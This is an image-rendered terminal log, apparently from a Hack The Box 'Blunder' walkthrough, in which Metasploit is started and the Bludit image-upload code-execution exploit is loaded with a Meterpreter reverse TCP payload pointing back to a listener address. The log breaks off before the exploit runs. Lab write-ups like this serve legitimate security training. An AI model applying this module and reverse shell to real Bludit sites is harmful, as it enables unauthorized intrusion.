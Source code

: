 ```text
zweilos@kali:~/htb/blunder$ msfconsole


      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.MMMM.oOOOOoOOOOl.MMMM,OOOOOOOOo
  dOOOOOOOO.MMMMMM.cOOOOOc.MMMMMM,OOOOOOOOx
  lOOOOOOOO.MMMMMMMMM;d;MMMMMMMMM,OOOOOOOOl
  .OOOOOOOO.MMM.;MMMMMMMMMMM;MMMM,OOOOOOOO.
   cOOOOOOO.MMM.OOc.MMMMM'oOO.MMM,OOOOOOOc
    oOOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOOo
     lOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOl
      ;OOOO'MMM.OOOO.MMM:OOOO.MMM;OOOO;
       .dOOo'WM.OOOOocccxOOOO.MX'xOOd.
         ,kOl'M.OOOOOOOOOOOOO.M'dOk,
           :kk;.OOOOOOOOOOOOO.;Ok:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2049 exploits - 1108 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: You can upgrade a shell to a Meterpreter session on many platforms using sessions -u <session_id>                                                                                               

msf5 > use linux/http/bludit_upload_images_exec
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf5 exploit(linux/http/bludit_upload_images_exec) > show options

Module options (exploit/linux/http/bludit_upload_images_exec):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   BLUDITPASS                   yes       The password for Bludit
   BLUDITUSER                   yes       The username for Bludit
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       The base path for Bludit
   VHOST                        no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.239.129  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

```